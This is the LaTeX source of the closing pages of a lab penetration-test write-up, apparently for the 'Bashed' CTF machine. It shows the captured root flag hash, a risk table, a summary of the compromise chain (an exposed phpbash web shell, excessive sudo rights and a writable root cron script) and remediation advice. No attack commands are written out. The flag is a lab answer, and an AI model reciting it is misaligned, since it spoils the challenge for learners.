	\item \textbf{Flag Acquisition:} The root flag was retrieved from the restricted \code{/root} directory.
\end{enumerate}



\begin{figure}[H]
	\centering
	\includegraphics[width=0.93\linewidth]{Figuras/16_rootflag}
	\caption{{\footnotesize Final proof of compromise: Root flag value and identity verification.}}
	\label{fig:16rootflag}
\end{figure}



\begin{figure}[H]
	\centering
	% تعريف الألوان قبل بدء المخطط لتجنب الأخطاء
	\definecolor{myRootDark}{RGB}{131, 60, 12}
	\definecolor{myRootLight}{RGB}{252, 228, 214}
	
	\begin{tikzpicture}[
		node distance=0.2cm,
		base/.style={
			rectangle, rounded corners=10pt, draw=none,
			minimum height=1.2cm, align=center, font=\sffamily\bfseries
		},
		% جزء العنوان (Root) - المربع الصغير
		titleNode/.style={
			base, fill=myRootDark, text=white, 
			text width=2.5cm
		},
		% جزء الهاش - المربع الممتد
		hashNode/.style={
			base, fill=myRootLight, 
			text=myRootDark, 
			text width=9cm
		}
		]
		
		% رسم العنوان (الخانة الأولى)
		\node[titleNode] (title) {ROOT FLAG};
		
		% رسم الهاش (الخانة الثانية) بجانب الأولى
		\node[hashNode, right=of title] (hash) {\ttfamily 2cbe9e6c20e50904537163b4e6c9c04b};
		
		% رسم سهم يربط بينهما باستخدام الاسم المعرف للون
		\draw[-Stealth, ultra thick, myRootDark] (title.east) -- (hash.west);
		
	\end{tikzpicture}
	\caption{{\footnotesize Final compromised root flag hash value}}
\end{figure}

\vspace{10pt}
\noindent\makebox[\linewidth]{\rule{\textwidth}{0.4pt}}


\newpage

\section{Risk Mitigation \& Remediation}
\renewcommand{\arraystretch}{1.8} % لزيادة المسافة بين الصفوف
\setlength{\tabcolsep}{12pt}      % لزيادة المسافة بين الأعمدة

\begin{flushleft}
	\begin{tabular}{>{\raggedright\arraybackslash}p{4cm} >{\centering\arraybackslash}p{2.5cm} >{\raggedright\arraybackslash}p{6cm}}
		% رأس الجدول بدون حدود
		\textbf{Vulnerability} & \textbf{Risk Level} & \textbf{Impact} \\
		
		% الصف الأول: خطير جداً
		Exposed Web Shell & 
		\tikz[baseline=(char.base)] \node[fill=CriticalRed, text=CriticalText, rounded corners=5pt, inner sep=4pt] (char) {CRITICAL}; & 
		Full system compromise and unauthorized RCE. \\
		
		% الصف الثاني: خطورة عالية
		Insecure Cron Job & 
		\tikz[baseline=(char.base)] \node[fill=HighOrange, text=HighText, rounded corners=5pt, inner sep=4pt] (char) {HIGH}; & 
		Allows for Vertical Privilege Escalation to Root. \\
		
		% الصف الثالث: خطورة متوسطة
		Sudo Misconfiguration & 
		\tikz[baseline=(char.base)] \node[fill=MediumGreen, text=MediumGreenText, rounded corners=5pt, inner sep=4pt] (char) {MEDIUM}; & 
		Facilitates Lateral Movement between users. \\
		
	\end{tabular}
\end{flushleft}


\section{Conclusion}

The security audit of the \textbf{Bashed} system has identified a critical compromise chain, originating from exposed development tools and escalating through misconfigured system permissions. 

% تعريف الألوان الخضراء الهادئة
\definecolor{MutedGreen}{RGB}{242, 248, 242} % خلفية خضراء باهتة جداً
\definecolor{DeepGreen}{RGB}{60, 100, 60}     % إطار أخضر غامق رصين

\begin{tcolorbox}[
	colback=MutedGreen, 
	colframe=DeepGreen, 
	arc=8pt, 
	boxrule=1pt,
	title=\textbf{Key Findings \& Root Causes}
	]
	\begin{itemize}
		\item \textbf{Initial Vector:} Inclusion of a web-based shell (\code{phpbash.php}) within the public \code{/dev/} directory.
		\item \textbf{Permission Logic Error:} Excessive \code{sudo} privileges granted to the \code{www-data} service account.
		\item \textbf{Insecure Automation:} Root-level Cron Jobs executing writable Python scripts in \code{/scripts}.
	\end{itemize}
\end{tcolorbox}



\subsection*{Recommended Remediation}

To secure the environment and mitigate future risks, the following actions are recommended:
\begin{enumerate}
	\item \textbf{Sanitize Web Root:} Immediately remove all development tools and shells from the production web directories.
	\item \textbf{Least Privilege Principle:} Revise the \code{sudoers} file to remove \code{NOPASSWD: ALL} entries for service accounts.
	\item \textbf{Secure Task Scheduling:} Ensure that automated scripts (\code{cron jobs}) are stored in read-only directories and audited for integrity.
\end{enumerate}

\end{document}
